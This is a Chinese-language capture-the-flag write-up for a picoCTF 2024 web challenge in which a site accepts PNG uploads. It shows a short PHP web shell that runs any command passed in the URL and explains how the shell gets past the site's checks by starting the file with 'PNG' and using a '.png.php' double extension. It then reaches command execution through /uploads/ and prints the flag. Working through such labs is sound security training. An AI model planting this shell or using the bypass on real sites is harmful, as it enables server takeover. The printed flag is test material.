



## 題目資訊

- 來源：picoCTF2024
- 分類：Web Exploitation
- 難度：中

## 解題流程

### 探勘

打開網頁，會看到只有按鈕可以上傳圖片

看原始碼也是 POST 到自己

上傳正常圖片只會說上傳成功


### 嘗試破解

直接寫 WebShell，然後改名成 png

做一個假的 PNG 上傳，內容如下，然後改名成 webshell.png.php

```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

出現錯誤： `Error: The file is not a valid PNG image: 3c3f7068`

看來會檢查 Magic Number



### 繼續探勘

1. robots.txt

   ```text
   User-agent: *
   Disallow: /instructions.txt
   Disallow: /uploads/
   ```

2. instructions.txt

   ```text
   Let's create a web app for PNG Images processing.
   It needs to:
   Allow users to upload PNG images
   	look for ".png" extension in the submitted files
   	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
   after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
   ```

   看起來確實有要求以 png 作為副檔名，會驗證檔案開頭是否為 PNG(50 4E 47)

3. 然後 uploads 應該就會是上傳後的檔案位置

### 繼續破解

檔案內容稍微改成這樣，檔名維持 webshell.png.php

```php
PNG
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

上傳後，成功繞過檢查


接著，到 uploads 去找剛剛上傳的檔案，順便補上一個 ls 指令

看來是順利 RCE(?



那就開始一個路徑慢慢看，可以發現有一個可疑的文字檔



打開後就是 FLAG

## Flag

> picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
